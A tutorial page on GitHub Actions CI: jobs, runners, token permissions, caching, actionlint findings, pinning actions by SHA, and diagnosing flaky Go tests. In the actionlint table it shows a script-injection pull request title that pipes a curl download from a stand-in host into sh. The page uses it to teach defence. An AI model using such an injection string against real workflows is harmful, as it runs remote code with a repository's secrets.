


# CI pipelines

## Why care?

These four complaints are common in teams that use CI:

- "CI is red again. Just press re-run, it's that flaky test."
- "My PR has waited 40 minutes for CI. I'll start another branch meanwhile."
- "Green on my laptop, red in CI. Same commit."
- "Someone changed a third-party action, and our workflow printed the deploy token to the log."

Continuous integration (CI) is one promise: **every change is checked, the same way, before it lands on main**. When the check is fast and you trust it, people make small changes, and small changes are safe. When it is slow or flaky, people batch changes and stop believing red. Then CI is only a cost.

On this page you look inside a GitHub Actions run, read this site's own two workflows line by line, lint a broken workflow with `actionlint`, measure what a cache is worth, and make a flaky test fail on purpose. The [Tooling and quality](../go/tooling-and-quality.md#the-ci-pipeline) page already showed a full CI file for a Go service. This page is about how the machine runs it, and how to keep it fast and honest.

## The idea: a clean, repeatable check for every change

A CI system runs the same checks on every change before the change reaches main. Five properties make it work:

- **A clean machine for every job.** Nothing is left over from the previous run. (A fresh virtual machine per job.)
- **A written procedure.** The same tools, the same steps, in the same order. (The workflow file.)
- **Parallel work.** Independent checks, such as lint and tests, run at the same time. (Jobs.)
- **A hard gate.** A change may merge only when **every** required check passes. (Required status checks.)
- **Reuse of earlier work.** Results that do not depend on the change are restored, not rebuilt. (The cache.)

Two things break this. A check that fails at random on the same code is a **flaky test**: people learn to ignore it. A procedure that says "use whatever version is installed" gives different results on different days: that is an **unpinned tool**.



## Under the hood: how GitHub Actions runs a job

### Events, workflows, jobs, steps

Four words, from big to small:

| Word         | What it is                                                          | Where it lives            |
| ------------ | ------------------------------------------------------------------- | ------------------------- |
| **Event**    | Something happened: a push, a pull request, a schedule, a click     | `on:`                     |
| **Workflow** | One YAML file. It says which events start it, and which jobs exist  | `.github/workflows/*.yml` |
| **Job**      | A list of steps on **one machine** (a runner). Jobs run in parallel | `jobs.<id>:`              |
| **Step**     | One command (`run:`) or one packaged action (`uses:`)               | `jobs.<id>.steps[*]`      |

The rules that surprise people:

- **Jobs do not share a disk.** Each job on a GitHub-hosted runner gets a fresh VM. To pass a file from `build` to `deploy`, you upload it as an artifact and download it in the other job. `needs:` only orders the jobs.
- **Steps in one job do share a disk.** They run one after the other in the same workspace. That's why `checkout` first, then `go test`, works.
- **Each `run:` step is a new shell process.** An `export FOO=1` in one step is gone in the next. To pass values on, a step writes `NAME=value` lines to the file in `$GITHUB_ENV` (environment for later steps) or `$GITHUB_OUTPUT` (outputs others can read with `${{ steps.<id>.outputs.NAME }}`).
- **`${{ ... }}` is not shell.** GitHub replaces these expressions **before** the shell sees the script. That is the root of script injection, as you will see with `actionlint` below.

### The runner: the program that runs the job

A **runner** is a small agent program on a machine. It asks GitHub "any job for me?", gets one, runs the steps, and streams the log back. It always connects **out** to GitHub, so a self-hosted runner behind a company firewall needs no inbound port.



`runs-on: ubuntu-latest` is a **label**. GitHub picks a hosted VM with that label. For a self-hosted runner, you choose your own labels (`runs-on: [self-hosted, linux, gpu]`).

!!! warning "Self-hosted runners and public repositories"

    A self-hosted runner is **not** destroyed after each job unless you build that yourself. A
    pull request from a fork can then run code on your machine, and leave something behind for
    the next job. Use self-hosted runners only for private repositories, or with ephemeral
    (one job, then gone) runners.

### The `GITHUB_TOKEN` and `permissions:`

For each job, GitHub creates a token that can call the GitHub API **for this repository**, and expires when the job ends. The `permissions:` block decides what the token may do. Anything you don't list is `none`. That's why both workflows here start with `contents: read`: a compromised step can read the code it already has, and nothing else. It cannot push to main, create a release, or change a PR.

Pull requests **from forks** are stricter by default: their token is read-only and they get no repository secrets. Never "fix" that by switching to the `pull_request_target` event and checking out the PR's code. That event runs with your secrets, so it would run a stranger's code with your secrets.

### This repository's CI, line by line

The start of `.github/workflows/ci.yml`, up to the end of its main job. The other three jobs (an online workflow audit, a commit-signature check and a dependency review on PRs) are explained in [GitHub Actions security](../secure-delivery/workflow-security.md) and [Signed commits](../secure-delivery/signed-commits.md#under-the-hood-verify-history-in-ci-yourself).

```yaml
name: CI

on:
  pull_request:
  push:
    branches: [main]

# No token scopes by default; each job asks for what it needs.
permissions: {}

# A new push makes the old run useless: cancel it.
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true

env:
  # mise.toml also lists the tutorial's tools; `mise run` must not install them.
  MISE_TASK_RUN_AUTO_INSTALL: "false"

jobs:
  check:
    name: Check
    runs-on: ubuntu-latest
    timeout-minutes: 20
    permissions:
      contents: read # clone the repository
    steps:
      - uses: step-security/harden-runner@aebdcf6156ab6691adf63218240e476564a1ed4c # v2.23.0
        with:
          egress-policy: audit
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
          fetch-depth: 0 # gitleaks scans the whole history
      - uses: jdx/mise-action@924e7c586e33d7d4bae9c14e26c5d22e2beb6e78 # v5.3.0
        with:
          version: 2026.11.14
          sha256: 6fa596291e9758106f761fea4f8e7fac6c3e7ff4714d5c0b9a76e16068db14f6
          install_args: python pipx:zensical go golangci-lint actionlint zizmor gitleaks bun uv
          # PR runs must not write caches that main reads (cache poisoning).
          cache_save: ${{ github.event_name == 'push' }}
      - run: mise run check
```

| Line                                         | What it does                                                                                                                                       |
| -------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| `on: pull_request`                           | Runs for every PR, on a **merge commit** of the PR into its base. So it tests "main plus my change"                                                |
| `push: branches: [main]`                     | Runs again after the merge, on main itself                                                                                                         |
| `permissions: {}`                            | The token gets **no** scopes by default; each job asks for its own (`contents: read` here)                                                         |
| `concurrency`                                | A new push to the same ref cancels the old run, which is now useless                                                                               |
| `timeout-minutes: 20`                        | A hung job fails after 20 minutes instead of 6 hours                                                                                               |
| `step-security/harden-runner`                | Records every network connection the job makes (`audit`), the first step towards an allow-list                                                     |
| `actions/checkout@3d3c… # v7.0.1`            | Clones the repository. Pinned by commit SHA, with the version as a comment (see [below](#pin-actions-by-commit-sha))                               |
| `persist-credentials: false`                 | Doesn't leave the token in `.git/config` for later steps                                                                                           |
| `fetch-depth: 0`                             | The whole history, because `gitleaks` scans every commit                                                                                           |
| `jdx/mise-action@924e… # v5.3.0`             | Installs mise at a pinned `version`, checks the binary against `sha256`, then installs the tools that `check` needs at the versions in `mise.lock` |
| `install_args`, `MISE_TASK_RUN_AUTO_INSTALL` | `mise.toml` also lists every tool the tutorial uses. CI installs only the build and check tools, and `mise run` must not fetch the rest            |
| `cache_save`                                 | Only runs on `main` save the tool cache, so a PR can't poison what `main` restores                                                                 |
| `mise run check`                             | **The same command you run locally.** All the logic is in `mise.toml`, not in YAML                                                                 |

That last line is the most important design choice. The [mise page](../toolbox/mise.md#mise-in-ci) explains the tool. Here is what `check` actually runs:

```console
$ mise tasks deps check
check
├── go:check
├── build
├── lint
│   └── install
└── fmt:check
    └── install
```

Formatting, Markdown lint and `actionlint`, the site build, and `go vet`, `golangci-lint` and `go test -race` for `examples/orders`. mise runs the independent tasks in parallel, and `install` only once. If CI is red, `mise run check` on your laptop is red too, with the same versions. There is no "works locally" gap to debug.

### The deploy workflow: two jobs, one hand-off

`pages.yml` builds this site and publishes it to GitHub Pages:

```yaml
name: Deploy site

on:
  push:
    branches: [main]
  workflow_dispatch:

permissions: {}

# Never cancel a deploy halfway; a new run waits.
concurrency:
  group: pages
  cancel-in-progress: false

env:
  # mise.toml also lists the tutorial's tools; `mise run` must not install them.
  MISE_TASK_RUN_AUTO_INSTALL: "false"

jobs:
  build:
    name: Build site
    runs-on: ubuntu-latest
    timeout-minutes: 15
    permissions:
      contents: read # clone the repository
    steps:
      - uses: step-security/harden-runner@aebdcf6156ab6691adf63218240e476564a1ed4c # v2.23.0
        with:
          egress-policy: audit
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: jdx/mise-action@924e7c586e33d7d4bae9c14e26c5d22e2beb6e78 # v5.3.0
        with:
          version: 2026.11.14
          sha256: 6fa596291e9758106f761fea4f8e7fac6c3e7ff4714d5c0b9a76e16068db14f6
          install_args: python pipx:zensical uv
          # The deployed build starts from clean downloads, not from a cache.
          cache: false
      - run: mise run build
      - uses: actions/upload-pages-artifact@fc324d3547104276b827a68afc52ff2a11cc49c9 # v5.0.0
        with:
          path: site

  deploy:
    name: Deploy to GitHub Pages
    needs: build
    runs-on: ubuntu-latest
    timeout-minutes: 10
    # Only this job may deploy, and only it gets the Pages and OIDC scopes.
    permissions:
      pages: write # publish the site
      id-token: write # prove the workflow's identity to Pages
    environment:
      name: github-pages
      url: ${{ steps.deployment.outputs.page_url }}
    steps:
      - uses: step-security/harden-runner@aebdcf6156ab6691adf63218240e476564a1ed4c # v2.23.0
        with:
          egress-policy: audit
      - id: deployment
        uses: actions/deploy-pages@368f82528645a54fb793d4d04e342629a3f51346 # v5.0.1
```

New ideas in it:

- **`workflow_dispatch`**: a "Run workflow" button, for a manual redeploy.
- **`pages: write` and `id-token: write`, on the deploy job only**: `deploy-pages` proves "I am this repo's workflow" with a short-lived OIDC token, instead of a stored password. The build job runs `mise run build` and needs neither scope, so it doesn't get them. You'll meet OIDC again for cloud deploys: no long-lived cloud keys in CI secrets.
- **`cache: false` in the build**: the output of this job is published, so it starts from clean, verified downloads instead of a cache that another run wrote.
- **`concurrency: group: pages`**: only one run in the group at a time. `cancel-in-progress: false` means a new run **waits** instead of killing a deploy halfway. For PR checks you want the opposite: a new push makes the old run useless, so cancel it.
- **Two jobs, one artifact.** `build` and `deploy` run on different VMs. The `site/` folder crosses over as an uploaded artifact. Build once, deploy that exact output.
- **`environment: github-pages`**: environments can have protection rules (required reviewers, a wait timer, only from main). That's where "who may deploy to production" lives.

### Matrices: one job definition, many jobs

A **matrix** expands one job into one job per combination:

```yaml
strategy:
  fail-fast: false
  matrix:
    go: ["1.26", "1.27"]
    os: [ubuntu-latest, macos-latest]
```

That's four jobs, in parallel, each with `${{ matrix.go }}` and `${{ matrix.os }}` set. Use a matrix for a **library** that must work on several Go versions or platforms. A **service** like `ordersd` runs on one Go version and one OS, the one in `go.mod` and the Dockerfile. A matrix there only costs runner minutes.

`fail-fast: false` matters. The default (`true`) cancels the other jobs as soon as one fails. Then you learn "1.26 on macOS failed" but not whether 1.27 on Linux passes too.

### Caching

A fresh VM has an empty Go build cache and an empty module cache. Everything compiles from zero. How much is that worth? Run this repo's Go checks with empty caches, then again:

```console
$ export GOCACHE=/tmp/tutor-ci/go-build GOLANGCI_LINT_CACHE=/tmp/tutor-ci/lint
$ /usr/bin/time -f '%e s wall' mise run go:check >/dev/null
30.68 s wall
$ /usr/bin/time -f '%e s wall' mise run go:check >/dev/null
3.11 s wall
$ du -sh /tmp/tutor-ci/*
242M	/tmp/tutor-ci/go-build
12M	/tmp/tutor-ci/lint
```

Ten times faster, for a small project. The task runs `go test -count=1`, which turns **off** the test result cache, so the tests really ran both times. The saving is all compiling (with `-race`, which builds everything a second way) and linting.

A CI cache is a tarball saved under a **key** at the end of a job and restored at the start of the next. The key must change when the inputs change:

```yaml
- uses: actions/cache@v4
  with:
    path: |
      ~/.cache/go-build
      ~/go/pkg/mod
    key: go-${{ runner.os }}-${{ hashFiles('**/go.sum') }}
    restore-keys: go-${{ runner.os }}-
```

`key` is the exact match. `restore-keys` is a fallback prefix: an older cache is still better than nothing, because Go's cache is **content-addressed**. A stale entry is never wrong, only unused. `actions/setup-go` with `cache: true` does exactly this for you. `jdx/mise-action` caches the installed tools.

!!! tip "Cache what is safe to be stale"

    The Go build cache and module cache are safe: entries are keyed by a hash of their inputs,
    and Go checks every module against `go.sum`. Never cache build **output** (`bin/`) and
    trust it. That's how a binary from last week's commit gets shipped.

### Fast feedback: the order of the checks

The goal is not "CI is fast". The goal is "**I learn about my mistake fast**". Three rules:

1. **Cheap checks first.** Format, lint, `go vet`, `actionlint` take seconds. Fail on them before you wait for slow tests.
2. **Run independent work in parallel.** Separate jobs, or a task runner with dependencies like mise.
3. **Cancel what nobody will read.** A new push to the same PR makes the old run pointless:

```yaml
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}
```

And give every job a `timeout-minutes`. The default job timeout is hours. A test that hangs on a network call blocks a runner and your PR until then. This repo's jobs set 5 to 20 minutes.

## Try it: lint a workflow with `actionlint`

A workflow file is valid YAML long before it is a valid workflow. GitHub only tells you about mistakes after you push, and some mistakes it never tells you about: they just behave wrong. `actionlint` knows the workflow schema, the types of every `${{ }}` context, and which inputs are dangerous. This repo pins it in `mise.toml` and runs it in `mise run lint`:

```console
$ actionlint --version
1.7.12
installed by downloading from release page
built with go1.26.1 compiler for linux/amd64
$ actionlint
$ echo $?
0
```

No output means no findings. The next workflow has five mistakes. Read it first and try to find them:

```yaml
name: CI

on:
  pull_request:
  push:
    branchs: [main]

jobs:
  test:
    runs-on: ubuntu-latest
    strategy:
      matrix:
        go: ["1.26", "1.27"]
    steps:
      - uses: actions/checkout@v5
      - uses: actions/setup-go@v6
        with:
          go-version: ${{ matrix.golang }}
      - name: Greet
        run: echo "Testing ${{ github.event.pull_request.title }}"
      - run: go test -race ./...
        timeout-minutes: "ten"

  build:
    needs: tests
    runs-on: ubuntu-latest
    steps:
      - run: go build -trimpath ./...
```

```console
$ actionlint
.github/workflows/ci.yml:6:5: unexpected key "branchs" for "push" section. expected one of "branches", "branches-ignore", "paths", "paths-ignore", "tags", "tags-ignore", "types", "workflows" [syntax-check]
  |
6 |     branchs: [main]
  |     ^~~~~~~~
.github/workflows/ci.yml:18:27: property "golang" is not defined in object type {go: number} [expression]
   |
18 |           go-version: ${{ matrix.golang }}
   |                           ^~~~~~~~~~~~~
.github/workflows/ci.yml:20:32: "github.event.pull_request.title" is potentially untrusted. avoid using it directly in inline scripts. instead, pass it through an environment variable. see https://docs.github.com/en/actions/reference/security/secure-use#good-practices-for-mitigating-script-injection-attacks for more details [expression]
   |
20 |         run: echo "Testing ${{ github.event.pull_request.title }}"
   |                                ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.github/workflows/ci.yml:22:26: expecting a single ${{...}} expression or float number literal, but found plain text node [syntax-check]
   |
22 |         timeout-minutes: "ten"
   |                          ^~~~~
.github/workflows/ci.yml:24:3: job "build" needs job "tests" which does not exist in this workflow [job-needs]
   |
24 |   build:
   |   ^~~~~~
$ echo $?
1
```

What each one would have done on GitHub:

| Finding                       | Without `actionlint`                                                                              |
| ----------------------------- | ------------------------------------------------------------------------------------------------- |
| `branchs`                     | You learn about it only after the push, from GitHub, if at all. Meanwhile main may run no CI      |
| `matrix.golang`               | An undefined property is an **empty string**. `setup-go` gets no version and picks something else |
| `pull_request.title` in `run` | **Script injection.** A PR titled `"; curl evil.sh \| sh; echo "` runs that command in your job   |
| `"ten"`                       | The workflow is rejected after the push                                                           |
| `needs: tests`                | The workflow is rejected after the push                                                           |

The injection needs a closer look. GitHub pastes the title into the script text **before** bash runs. The fix is to pass untrusted data through an environment variable, so bash sees a variable, never code. Fixed, with a few more good habits added:

```yaml
name: CI

on:
  pull_request:
  push:
    branches: [main]

permissions:
  contents: read

concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}

jobs:
  test:
    runs-on: ubuntu-latest
    timeout-minutes: 15
    strategy:
      fail-fast: false
      matrix:
        go: ["1.26", "1.27"]
    steps:
      - uses: actions/checkout@fbc6f3992d24b796d5a048ff273f7fcc4a7b6c09 # v5.1.0
      - uses: actions/setup-go@v6
        with:
          go-version: ${{ matrix.go }}
      - name: Greet
        env:
          TITLE: ${{ github.event.pull_request.title }}
        run: echo "Testing $TITLE"
      - run: go test -race ./... > test-$GITHUB_RUN_ID.log

  build:
    needs: test
    runs-on: ubuntu-latest
    timeout-minutes: 10
    steps:
      - uses: actions/checkout@fbc6f3992d24b796d5a048ff273f7fcc4a7b6c09 # v5.1.0
      - run: go build -trimpath ./...
```

```console
$ actionlint
.github/workflows/ci.yml:32:9: shellcheck reported issue in this script: SC2086:info:1:28: Double quote to prevent globbing and word splitting [shellcheck]
   |
32 |       - run: go test -race ./... > test-$GITHUB_RUN_ID.log
   |         ^~~~
```

There is one more finding. When `shellcheck` is on the `PATH`, `actionlint` runs it on every `run:` script. Quote the variable (`> "test-$GITHUB_RUN_ID.log"`) and the output is empty again.

Notice what `actionlint` did **not** complain about: `actions/setup-go@v6` is still a tag, not a commit. That's a policy choice, not a syntax error. The next section covers it.

## Keeping CI trustworthy

### Pin actions by commit SHA

`uses: actions/checkout@v5` looks like a version. It is a **Git tag**, and its owner can move a tag to any commit at any time. You can see it with plain Git:

```console
$ git ls-remote https://github.com/actions/checkout | grep -E 'refs/tags/v5(\^\{\})?$|v5.1.0'
fbc6f3992d24b796d5a048ff273f7fcc4a7b6c09	refs/tags/v5
fbc6f3992d24b796d5a048ff273f7fcc4a7b6c09	refs/tags/v5.1.0
```

Today `v5` is the same commit as `v5.1.0`. When `v5.2.0` comes out, `v5` moves. That's convenient for bug fixes. It is also exactly how attackers have turned popular actions into credential stealers: they got write access to the action's repository, moved the tags to a malicious commit, and every workflow that used the tag ran their code at the next build, with that workflow's secrets.

A full commit SHA can't be moved. Git objects are named by their content (see [Objects](../git/objects.md)). So:

```yaml
- uses: actions/checkout@fbc6f3992d24b796d5a048ff273f7fcc4a7b6c09 # v5.1.0
```

The comment keeps it readable. Dependabot or Renovate update the SHA **and** the comment in a pull request, so upgrades are reviewed like any other change. This repository used tags (`@v5`, `@v3`) until it applied its own [Secure delivery](../secure-delivery/index.md) chapter; now every `uses:` is a SHA with a comment, and the repository's Actions policy refuses any action that isn't pinned that way. Pin by SHA everywhere, including `actions/*`: the policy can't make exceptions, and neither should you.

### Least privilege, everywhere

- `permissions: contents: read` at the top. Add more **per job**, only where needed (`pages: write` on the deploy job only, for example).
- Secrets only in the job that needs them, ideally through an `environment` with protection rules.
- OIDC (`id-token: write`) to get short-lived cloud credentials, instead of storing cloud keys as secrets.
- Treat everything in `github.event.*` that a user can type (titles, branch names, commit messages, comments) as untrusted input. `actionlint` flags the common ones.

[GitHub Actions security](../secure-delivery/workflow-security.md) goes much further: dangerous triggers, script injection, cache poisoning, environments and OIDC trust policies.

### Flaky tests

A **flaky** test passes and fails on the same code. The cost is not the re-run. The cost is that people learn to ignore red. Then a real failure gets re-run until it turns green by luck, and ships.

Here are the two classic causes in one file:

```go
package flaky

import (
	"testing"
	"time"
)

var orders = map[string]int{} // shared between tests: the bug

func TestCreate(t *testing.T) {
	orders["o-1"] = 3
}

func TestCount(t *testing.T) {
	if got := len(orders); got != 1 {
		t.Fatalf("len(orders) = %d, want 1", got)
	}
}

func TestShipsQuickly(t *testing.T) {
	done := make(chan struct{})
	go func() { time.Sleep(time.Duration(time.Now().UnixNano()%3) * time.Millisecond); close(done) }()
	select {
	case <-done:
	case <-time.After(2 * time.Millisecond):
		t.Fatal("shipping took longer than 2ms")
	}
}
```

```console
$ go test -count=1 .
ok  	example.com/flaky	0.004s
$ go test -count=100 -run TestShipsQuickly . 2>&1 | grep -c -- '--- FAIL'
36
```

All green once. 36 failures in 100 runs of the timing test. `-count=N` is the cheapest flake detector there is: run a suspicious test 100 times before you blame "CI".

The other test only passes because `TestCreate` happens to run first. `-shuffle=on` runs tests in a random order and prints the seed:

```console
$ go test -count=1 -shuffle=on -run 'TestCreate|TestCount' .
-test.shuffle 1795776934541277221
--- FAIL: TestCount (0.00s)
    store_test.go:16: len(orders) = 0, want 1
FAIL
FAIL	example.com/flaky	0.003s
FAIL
$ go test -count=1 -shuffle=1795776934541277221 -run 'TestCreate|TestCount' -v .
-test.shuffle 1795776934541277221
=== RUN   TestCount
    store_test.go:16: len(orders) = 0, want 1
--- FAIL: TestCount (0.00s)
=== RUN   TestCreate
--- PASS: TestCreate (0.00s)
FAIL
FAIL	example.com/flaky	0.003s
FAIL
```

The seed turns a random failure into a reproducible one. The fixes are simple and permanent: no shared mutable state between tests (build it in each test, see [Testing](../go/testing.md)), and no wall-clock deadlines in tests (use a fake clock, or `testing/synctest`).

A team rule that works: **a flaky test is a bug with an owner and a deadline**. Quarantine it (skip with a link to the ticket) the day it is found, so main stays trustworthy. Never add automatic retries to the whole suite: that hides new flakes too.

### Watching runs from the terminal

You don't need the browser to follow CI. The GitHub CLI has a `run` command group:

!!! tip "New tool: `gh`"

    ```sh
    mise use gh@2.106.0
    ```

    This adds it to the project's `mise.toml`, pinned to an exact version. See [Adding tools as you go](../toolbox/mise.md#adding-tools-as-you-go).

```sh
gh run list --branch agent/delivery --limit 5   # recent runs of this branch
gh run watch --exit-status                      # follow the newest run, exit 1 if it fails
gh run view --log-failed                        # only the log of the failed steps
gh run rerun --failed                           # re-run only the failed jobs
```

<!-- TODO(real-output): run these against a repository with a GitHub remote and paste the output. This worktree has no remote, and the session must not call GitHub. Expect a table with STATUS, TITLE, WORKFLOW, BRANCH, EVENT, ID, ELAPSED, AGE for `gh run list`, and a live list of jobs and steps with check marks for `gh run watch`. -->

`gh run view --log-failed` saves the most time: a red run of `mise run check` produces thousands of lines, and you want the 20 around the failure. Use `gh run rerun --failed` for a **real** infrastructure hiccup (a runner lost its network), never as the cure for a flaky test.

!!! note "Running workflows locally"

    Tools like `act` run a workflow file in local containers. It's not installed here, and it
    only imitates GitHub's runners. The better habit is the one this repo uses: keep the YAML
    thin and put the logic in a command (`mise run check`, `make pr`) that runs the same
    everywhere.

## Traps

- **Logic in YAML.** Forty lines of shell in `run:` blocks can only be tested by pushing. Put it in a task or script that also runs locally.
- **Expressions in scripts.** `${{ github.event.* }}` inside `run:` is code injection. Pass it through `env:`.
- **Tags for third-party actions.** A tag can be moved. Pin by SHA and let a bot open upgrade PRs.
- **Broad tokens.** No `permissions:` block means the repository's default, which may be read-write. Write `contents: read` at the top.
- **`pull_request_target` with a checkout of the PR.** It runs untrusted code with your secrets.
- **Caching outputs instead of inputs.** Cache Go's build and module caches, never `bin/`.
- **No timeout.** A hung test holds a runner for hours. Set `timeout-minutes` on every job.
- **Matrix for a service.** You deploy one Go version on one OS. Test that one, well.
- **"Just re-run it."** Every re-run teaches the team that red means nothing. Quarantine and fix flakes.

## Check yourself

??? question "1. Step 2 of a job runs `export VERSION=1.4.0`. Step 3 runs `echo $VERSION` and prints nothing. Why, and how do you fix it?"

    Each `run:` step is a new shell process, so the variable dies with step 2's shell. Write it
    to the environment file instead: `echo "VERSION=1.4.0" >> "$GITHUB_ENV"`. Every later step
    in the **same job** then has it. Another job would need it as a job output.

??? question "2. Your `build` job writes `bin/ordersd`. The `deploy` job has `needs: build` and runs `ls bin/`. It fails: no such directory. Why?"

    Jobs run on different, fresh machines. `needs:` only orders them; it does not share a disk.
    Upload `bin/` as an artifact in `build` and download it in `deploy`. This is also the "build
    once" rule: deploy the exact bytes that were tested.

??? question "3. A colleague says: `actions/checkout@v5` is pinned, it says v5. What is the risk?"

    `v5` is a Git tag that the action's owner, or anyone who takes over their account, can move
    to another commit. The next run silently uses the new code, with your token and secrets.
    A full 40-character commit SHA can't change. Pin by SHA with a version comment, and let
    Dependabot or Renovate propose upgrades.

??? question "4. CI takes 12 minutes. Lint takes 20 seconds, tests 11 minutes. People push a typo and learn about it 12 minutes later. What do you change?"

    Run the fast checks first, or in a separate job that fails quickly, so a lint error shows
    in seconds. Add a build cache keyed on `go.sum`, cancel superseded runs with
    `concurrency`, and look at why tests take 11 minutes (`go test -json` timings, slow
    integration tests that can run in parallel or in a separate job).

??? question "5. A test fails about once in 30 runs in CI and never on your laptop. What are your first two commands?"

    `go test -count=100 -run TestName ./pkg` to make it fail on your machine, and
    `go test -shuffle=on ./pkg` (then `-shuffle=<seed>`) to check whether it depends on test
    order. Add `-race` too: a data race is a classic source of flakes. Meanwhile, quarantine it
    with a ticket so main stays green for real reasons.

??? question "6. Why does this repository's main CI job need only four steps?"

    All the logic lives in `mise.toml`: tool versions (pinned and locked) and the `check` task.
    CI only hardens the runner, checks out, installs mise and runs `mise run check`, the same command a developer runs. That
    removes the "works locally, fails in CI" class of problems, and the YAML has almost nothing
    to get wrong.

## Recap

- An **event** starts a **workflow**; a workflow has **jobs** (one fresh machine each, parallel unless `needs:`); a job has **steps** (one shared disk, a new shell each).
- A **runner** pulls jobs from GitHub. Hosted runners are thrown away after each job. Self-hosted ones are not, unless you make them ephemeral.
- The `GITHUB_TOKEN` gets only the `permissions:` you list. Start with `contents: read`.
- `${{ }}` is replaced **before** the shell runs. Untrusted input goes through `env:`.
- Caches restore **inputs** (Go build and module caches). Here they made the Go checks 10 times faster: 30.7 s to 3.1 s.
- Fast feedback: cheap checks first, parallel jobs, `concurrency` to cancel old runs, `timeout-minutes` everywhere.
- `actionlint` (pinned in `mise.toml`, run by `mise run lint`) catches typos, type errors, broken `needs:`, injection, and shell bugs before you push.
- Pin third-party actions by **commit SHA**; tags can move.
- Flaky tests destroy trust in red. Find them with `-count=100` and `-shuffle=on`, quarantine them the same day.

Next: CI proved that a commit is good. But is the binary you deploy really built from that commit, and would you get the same bytes again? [Reproducible builds](reproducible-builds.md).
